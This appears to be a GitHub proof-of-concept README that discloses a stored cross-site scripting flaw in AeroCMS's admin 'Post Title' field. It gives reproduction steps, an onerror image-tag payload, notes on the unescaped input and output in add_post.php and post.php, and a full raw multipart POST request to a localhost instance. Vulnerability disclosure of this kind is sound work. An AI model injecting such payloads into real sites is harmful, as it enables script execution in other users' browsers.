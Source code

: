 # AeroCMS-Add_Posts-Stored_XSS-Poc
* Description => Stored_XSS at `Post Title`
## Step to Reproduct
* Login to admin panel -> `Posts` -> `Add Posts` -> `Post Title` -> inject payload `<img/src/onerror=prompt(10)>` -> The XSS will trigger when clicked `Edit Post` button
## Exploit
![image](https://user-images.githubusercontent.com/79050415/156887124-fb539ece-2ad1-4ebd-9ce9-6fcfd688b36e.png)
![image](https://user-images.githubusercontent.com/79050415/156879926-c7009ae0-54b5-4b5c-a49f-6c693ce8f2e5.png)
## Vulnerable Code
* `add_post.php`
![image](https://user-images.githubusercontent.com/79050415/156879687-273b903a-195c-4313-be7a-b4053ecae897.png)
When inserting into the database, the input is not filtered out of html characters
* `post.php`
![image](https://user-images.githubusercontent.com/79050415/156879786-ed53b64e-cf92-4160-aacd-32440b795d32.png)
Even when displaying, the entity cannot be properly encoded
-------------------------------------------------------------
# POC
* `Injection Point`
```c
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
```
* Request
```c POST http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------85448121341942511952219062291
Content-Length: 1101
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26
Cookie: Phpstorm-6b6ba5ee=79a50460-3b02-4cde-a5a4-ff6883c16a7b; PHPSESSID=ndh6ks953tmha1ps8cfp4bplf2
Upgrade-Insecure-Requests: 1

-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_category_id"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_user"

admin
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_status"

published
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_tags"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_content"

<p>111</p>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="update_post"

Edit Post
-----------------------------85448121341942511952219062291--
```
`POC VIDEO`
https://drive.google.com/file/d/1kMGPBLKgefvKZj34QxDlPTxXdcT0kRR_/view?usp=sharing

